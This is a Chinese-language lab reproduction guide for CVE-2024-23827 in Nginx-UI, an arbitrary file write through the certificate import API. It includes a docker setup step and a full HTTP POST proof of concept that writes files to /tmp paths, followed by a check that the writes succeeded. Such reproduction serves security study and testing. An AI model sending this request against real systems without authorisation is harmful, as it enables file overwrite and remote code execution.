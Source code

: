 # CVE-2024-23827 通过导入证书功能写入任意文件 

#### 漏洞描述

Nginx-UI 是一个用于管理 Nginx 配置的 Web 界面。导入证书功能允许任意写入系统。该功能不会检查提供的用户输入是否是证书/密钥，并允许写入系统中的任意路径。可以利用该漏洞进行远程代码执行并覆盖配置文件 app.ini。版本 2.0.0.beta.12 修复了该问题。

项目下载地址https://github.com/0xJacky/nginx-ui/releases/tag/v2.0.0-beta.10-patch

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2024-23827
- https://blog.csdn.net/shelter1234567/article/details/136303180

## 漏洞环境

执行如下命令启动一个包含漏洞的Nginx-UI环境：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:80即可查看web页面。在Nginx UI的第一次运行时，请在浏览器中访问“http://<your_server_ip>:<listen_port>/install”完成后续配置

## 漏洞复现

前端登录，获取有效Authorization值

![](https://img-blog.csdnimg.cn/direct/e3bc413ac55c4964aa9e119d48bc6814.png)

开启burp 修改请求包

![](https://img-blog.csdnimg.cn/direct/082d89af90d94d2ea7cd49b872ebf334.png)

```go
POST /api/cert HTTP/1.1
Host: 192.168.116.128:9000
Accept: application/json, text/plain, */*
Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWRtaW4iLCJleHAiOjE3MDkwMTM2NTl9.dRDlO1X1hZdSlpW7TMRIsInNpm2VcIBMiEDPfFxZo-c
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Referer: http://192.168.116.128:9000/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: _ga=GA1.1.2049876865.1708327587; _ga_ZCZHJPMEG7=GS1.1.1708327586.1.1.1708327666.0.0.0; kirby_session=cc1d1a863be81c336432fd9289a4b1dcda92ec43%2B1709870053.fc16749a4dca942d7b1b.c69e92337168ffdf0dab0629ba6d4bd795e9facde4f117c1b0f512656bad94fa
Connection: close
Content-Length: 158

{"name":"poc","ssl_certificate_path":"/tmp/test.jsp","ssl_certificate_key_path":"/tmp/test2.sh","ssl_certificate":"testjsp","ssl_certificate_key":"test2sh"}
```

发包成功，看一看文件是否真正被写入

```
ls -la /tmp/test*
```

![](https://img-blog.csdnimg.cn/direct/2ab694080c1f453e97cde0d17fba4661.png)

文件成功被写入 漏洞复现成功
